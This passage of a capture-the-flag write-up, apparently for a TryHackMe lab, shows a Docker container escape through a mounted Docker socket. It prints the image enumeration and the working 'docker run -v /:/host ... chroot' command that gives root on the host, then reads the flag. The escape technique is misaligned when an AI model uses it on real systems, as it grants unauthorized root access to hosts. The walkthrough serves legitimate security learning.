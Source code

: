 ```yaml
```

The web application is inside a docker container but seems to share the `/app/` directory with
it's host.

The next question is : does it share anything else ?

# Sockets aren't made for sharing
The container doesn't seem to be privileged, so we can search different properties that could help us.
The article of [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)
is a really good base to understand docker escape.

Enumeration after enumeration, I discovered an interesting property :
- The docker socket is mounted on the filesystem : `/run/docker.sock`
- The docker binary is on the system
- There are images available if we check with the command `docker ps` :
  ```
  root@02e849f307cc:/# docker images
  REPOSITORY               TAG       IMAGE ID       CREATED         SIZE
  padding-oracle-app_web   latest    cd6261dd9dda   2 months ago    1.01GB
  <none>                   <none>    4187efabd0a5   2 months ago    704MB
  gradle                   7-jdk11   d5954e1d9fa4   2 months ago    687MB
  openjdk                  11        47a932d998b7   23 months ago   654MB
  ```

:::important
As you may know, the docker socket is really dangerous to have mounted in a container because it
can help the attacker to create a container with the **host filesystem** available.
:::

We can, using an existing image, create a container with the host filesystem mounted as the
root of the container's filesystem :
```
docker run -it -v /:/host/ 47a932d998b7 bash -c 'chroot /host/'
```
:::note
Here we used the already present **openjdk** docker image with ID 47a932d998b7 because
it was easier than download a new image or build one
:::

Huray ! We are now root in a container that contains the host filesystem :
![image](/images/thm_ny_flankees//host.png)

We can see a `flag.txt` file in the root of the filesystem, it contains the
final flag :
![image](/images/thm_ny_flankees//flag.png)
